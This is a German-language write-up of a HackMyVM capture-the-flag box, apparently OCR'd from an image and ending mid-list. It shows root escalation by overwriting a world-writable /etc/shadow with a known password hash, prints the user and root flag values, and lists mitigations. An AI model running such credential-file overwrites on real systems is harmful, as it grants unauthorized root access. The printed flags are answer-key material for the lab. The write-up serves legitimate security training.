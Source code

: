 **Kurzbeschreibung:** Die Privilegieneskalation erfolgte durch Ausnutzung unsicherer Dateiberechtigungen. Der Benutzer `hmv` hatte Schreibzugriff auf `/etc/shadow`. Dies erlaubte das Überschreiben des Passwort-Hashes des `root`-Benutzers mit einem bekannten Hash für das Passwort "root".

**Schritte (als `hmv`):**
1.  Generiere den Hash für das gewünschte neue Root-Passwort (hier "root"):
    ```bash
    openssl passwd 
    # Gib zweimal "root" ein. Merke dir den ausgegebenen Hash (z.B. ".LQrZnK1qh9TI").
    ```
2.  Überschreibe `/etc/shadow` mit dem neuen Root-Eintrag:
    ```bash
    echo "root:[HIER_DEN_GENERIERTE_HASH_EINFÜGEN]:18844:0:99999:7:::" > /etc/shadow
    # Beispiel: echo "root:.LQrZnK1qh9TI:18844:0:99999:7:::" > /etc/shadow
    ```
3.  Wechsle zum `root`-Benutzer mit dem neuen Passwort:
    ```bash
    su -l
    # Passwort: root
    ```
**Ergebnis:** Eine Shell mit `uid=0(root)` wird gestartet.

---

## Flags

*   **User Flag (`/home/hmv/user.txt`):**
    ```
    HMV100vmyay
    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    HMVkeephacking
    ```

---

## Empfohlene Maßnahmen (Mitigation)

*   **FTP-Sicherheit:**
    *   **DRINGEND:** Deaktivieren Sie den anonymen FTP-Zugriff (`anonymous_enable=NO` in `vsftpd.conf`).
    *   Entfernen Sie sensible Dateien (SSH-Schlüssel, Benutzerlisten) von allen FTP-Verzeichnissen, insbesondere von solchen, die anonym zugänglich sind.
    *   Beschränken Sie Schreibrechte für anonyme oder niedrigprivilegierte FTP-Benutzer.
*   **Webserver-Sicherheit:**
    *   **Entfernen Sie private SSH-Schlüssel und andere sensible Dateien sofort aus dem Webroot** und allen über das Web erreichbaren Pfaden. Überprüfen Sie die Webserver-Konfiguration und Dateiberechtigungen sorgfältig.
*   **SSH-Schlüssel-Management:**
    *   Private SSH-Schlüssel sollten niemals auf unsicheren Wegen (FTP, Web) geteilt oder gespeichert werden.
    *   Erzwingen Sie starke, einzigartige Passphrasen für alle SSH-Schlüssel.
*   **Dateisystemberechtigungen:**